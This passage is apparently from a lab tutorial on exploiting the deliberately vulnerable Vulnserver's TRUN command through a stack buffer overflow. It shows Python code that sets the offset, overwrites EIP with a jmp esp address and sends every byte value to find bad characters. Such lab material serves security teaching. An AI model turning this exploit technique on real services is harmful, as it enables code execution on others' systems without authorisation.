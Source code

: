 ```python

# Restart program, run it, ctrl+g, enter the <opied memory address value>, f2 to set a breakpoint there. Run the script... we get a notification at the bottom (breakpoint at location .....), f7 to step into (you will notice that we are now executing code off of the stack all inside of our ESP or C buffer) ie We successfully jumped to a location that we can control.
```
{% endcode %}

## Step 4 - Bad Bytes

Let us figure out all the Bad Bytes that may exist in this app.

We can do this by sending the application all characters (every single potential byte) the program might use.

{% code overflow="wrap" lineNumbers="true" %}
```python
# lets use a list comprehension in python to do this.
# we use the struct module to convert the intergers into unsigned_char, then convert them to byte with ".join".
# we start from range(1,256) in order to remove the "<0x00>" null byte value which in some low level programming language like C, stops the rest of the string from being executed.
all_characters = b"".join([struct.pack('<B', x) for x in range(1,256)])
```
{% endcode %}

Our python code looks like this...

{% code title="" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/python
import socket
import struct # 11 - import struct.

# 1 - we establish a connection to the victim pc.
s = socket.socket()
s.connect(("$ip", 9999))

total_length = 2984 # 2 - we will be working with this value.
offset = 2003 # 6 - this is our Offset point/value.
new_eip = struct.pack("<I", 0x<our copied memory address value>) # 14 - this becomes the new EIP value, which executes what the ESP says. We can test this by setting a breakpoint in the debugger (this is our jmp esp instruction).
all_characters = b"".join([struct.pack('<B', x) for x in range(1,256)]) # 15 - passing all characters to check the app for bad characters.

# 3 - we use a list to orderly arrange each parts of our payload.
# 4 - in python3, when we are communicating with a socket, we have to send all the data in bytes ie, <b"">
payload = [
    b"TRUN /.:/", # 5 - copy the exact value used by .spk script (in the 2nd Panel).
    b"A" * offset, # 10 - sends exactly 2003 A's to the vulnserver app.
    new_eip, # 12 - the new EIP value prints exactly after the 2003 A's, which means we have used up 2003 + 4 out of 2984bytes.
    all_characters, # 13 - pass in the bad char check.
    b"C" * (total_length - offset - len(new_eip) - len(all_characters)) # 16 - this executes C * the result of the maths operation above.. :). RUN THE CODE. So it gets executed, now from the top at the 1st Panel, rightclick, follow in dump, address. Now we can see 3rd Panel all characters and can now start checking for bad characters (ook for any suspecting outlier or off number). We dont notice any bad character except the null byte.
    
]
# 7 - putting together our payload/
payload = b"".join(payload) # 8 - joinging the payload with a byte string.

```